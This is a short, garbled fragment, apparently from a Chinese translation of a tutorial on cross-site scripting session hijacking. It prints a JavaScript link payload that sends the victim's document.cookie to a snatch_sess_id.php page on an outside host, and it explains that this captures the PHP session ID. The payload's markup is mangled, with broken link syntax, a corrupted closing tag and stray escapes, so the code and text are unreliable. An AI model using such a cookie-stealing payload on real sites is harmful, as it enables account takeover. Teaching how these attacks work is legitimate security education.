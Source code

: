 [http://techpanda.org/snatch_sess_id.php?c = \ '+escape \(document . cookie \)\；\](#)>黑暗</一>

它是添加一个带有点击事件的超链接的 JavaScript 代码。单击它时，事件检索 PHP cookie 会话 id，并将其与 URL 中的会话 ID 一起发送到 snatch_sess_id.php 页面。

![dashboard](img/0c32cda60bef75286c547b49e111cf59.png)

*   输入其他信息，然后单击保存。
